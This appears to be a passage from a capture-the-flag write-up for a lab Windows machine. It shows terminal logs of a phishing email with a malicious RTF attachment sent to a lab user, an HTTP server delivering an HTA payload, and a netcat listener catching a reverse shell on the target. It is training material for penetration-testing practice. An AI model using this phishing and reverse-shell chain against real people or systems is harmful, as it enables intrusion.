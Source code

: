 Sending our malicious email and gaining initial foothold

```
┌──[Tue Nov  8 12:03:42 AM CST 2022]-[TheScriptKid]-[/tmp]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
└──# sendEmail -f thescriptkid@megabank.com -t nico@megabank.com -u "Subject" -m "Message" -a DNS.RTF -s $ip -v
Nov 08 00:10:00 localhost sendEmail[729161]: DEBUG => Connecting to 10.129.15.19:25
Nov 08 00:10:00 localhost sendEmail[729161]: DEBUG => My IP address is: 10.10.16.2
Nov 08 00:10:00 localhost sendEmail[729161]: SUCCESS => Received: 	220 Mail Service ready
Nov 08 00:10:00 localhost sendEmail[729161]: INFO => Sending: 	EHLO localhost
Nov 08 00:10:00 localhost sendEmail[729161]: SUCCESS => Received: 	250-REEL, 250-SIZE 20480000, 250-AUTH LOGIN PLAIN, 250 HELP
Nov 08 00:10:00 localhost sendEmail[729161]: INFO => Sending: 	MAIL FROM:<thescriptkid@megabank.com>
Nov 08 00:10:00 localhost sendEmail[729161]: SUCCESS => Received: 	250 OK
Nov 08 00:10:00 localhost sendEmail[729161]: INFO => Sending: 	RCPT TO:<nico@megabank.com>
Nov 08 00:10:00 localhost sendEmail[729161]: SUCCESS => Received: 	250 OK
Nov 08 00:10:00 localhost sendEmail[729161]: INFO => Sending: 	DATA
Nov 08 00:10:01 localhost sendEmail[729161]: SUCCESS => Received: 	354 OK, send.
Nov 08 00:10:01 localhost sendEmail[729161]: INFO => Sending message body
Nov 08 00:10:01 localhost sendEmail[729161]: Setting content-type: text/plain
Nov 08 00:10:01 localhost sendEmail[729161]: DEBUG => Sending the attachment [DNS.RTF]
Nov 08 00:10:13 localhost sendEmail[729161]: SUCCESS => Received: 	250 Queued (12.281 seconds)
Nov 08 00:10:13 localhost sendEmail[729161]: Email was sent successfully!  From: <thescriptkid@megabank.com> To: <nico@megabank.com> Subject: [Subject] Attachment(s): [DNS.RTF] Server: [10.129.15.19:25]

```

```
┌──[Tue Nov  8 12:01:01 AM CST 2022]-[TheScriptKid]-[/tmp]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
└──# python3 -m http.server 80                                                                                    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.15.19 - - [08/Nov/2022 00:10:22] "GET /thescriptkid.hta HTTP/1.1" 200 -

```

```
┌──[Tue Nov  8 12:02:37 AM CST 2022]-[TheScriptKid]-[/tmp]
├──[wlan0: 192.168.1.153]-[tun0: 10.10.16.2]-[ip: 10.129.15.19]
└──# nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.15.19.
Ncat: Connection from 10.129.15.19:50048.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
